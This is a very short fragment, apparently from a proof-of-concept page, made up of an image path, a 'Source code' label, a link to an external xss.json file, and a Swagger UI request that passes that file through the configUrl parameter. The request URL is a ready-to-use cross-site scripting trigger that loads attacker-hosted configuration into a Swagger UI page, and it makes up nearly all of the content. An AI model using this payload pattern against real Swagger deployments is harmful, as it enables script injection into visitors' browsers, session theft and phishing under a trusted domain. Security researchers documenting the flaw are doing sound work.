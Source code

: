 https://raw.githubusercontent.com/0tax00/poc-xss-swagger-webjars/refs/heads/main/xss.json

/index.html?configUrl=https://raw.githubusercontent.com/0tax00/poc-xss-swagger-webjars/refs/heads/main/xss.json
